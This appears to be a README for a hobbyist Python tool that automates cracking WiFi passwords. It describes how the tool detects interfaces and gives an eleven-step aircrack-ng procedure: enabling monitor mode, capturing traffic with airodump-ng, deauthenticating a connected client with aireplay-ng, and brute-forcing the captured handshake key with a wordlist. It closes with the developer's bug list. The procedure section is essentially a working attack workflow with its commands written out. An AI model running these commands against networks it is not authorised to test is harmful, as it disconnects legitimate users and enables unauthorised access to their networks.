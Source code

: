 ## How it works
- The entry point is master.py, which displays all the possible options.
- First option is to display all the available interfaces. In order to do this, master.py calls **listInterfaces** function which in turn calls DetectInterface.py with its execIW() function. The execIW() function runs ``ip link show`` to list all the available interfaces and stores the output in an ephemeral file **interfaces.txt**. **listInterfaces()** then does some string manipulation to carve out the interface names and deletes the **interfaces.txt** file. It also returns the interfaces list to master.py which is then displayed.



## Procedure[David Bombal video]
1. Select a Wireless Adapter that supports monitor mode and packet injection
2. Choose a WiFi network or AP to attack [DONE]
3. Run `sudo airmon-ng check kill` to kill any conflicting processes [Ignoring for now]
4. Run `sudo airmon-ng start {interface}` to activate Monitor Mode
5. Run `sudo airodump-ng {interface}mon` to get the AP's MAC address and channel and MAC of one client connected to it
6. In one window, `sudo airodump-ng -w {output file} -c {channel} --bssid {MAC of AP} {interface}mon`.This will keep outputting packets as a pcap file.
7. In second window, `sudo aireplay-ng --deauth 1 -a {MAC of AP} -c {MAC of client} {interface}mon`. This performs the deauth.
8. After 10 seconds, stop the outputting of packets in the first window.
9. Put interface back into managed mode
10. Check presence of eapol packets in the capture
11. Run `aircrack-ng hack-01.cap -w {wordlist}` to brute force the key data present in hack-01.cap output file.
------------------------------------------------------------------------------------------------------------------------------------------------------------

## Errors to fix
1. If interface is already in monitor mode, do not return "Interface does not support monitor mode". Instead deactivate it, then resume normal operation [FIXED]
2. Check for packet injection on the wireless interface as well [FIXED]
3. Weird issues persisting in scanning. Try to kill conflicting processes [FIXED]
4. Unpredictable naming conventions of the Interfaces is problematic 
5. Packet Injection test does not work if interface is in Monitor Mode already.
6. The Clients take variable time to reconnect to target AP. Gotta ccount for it.
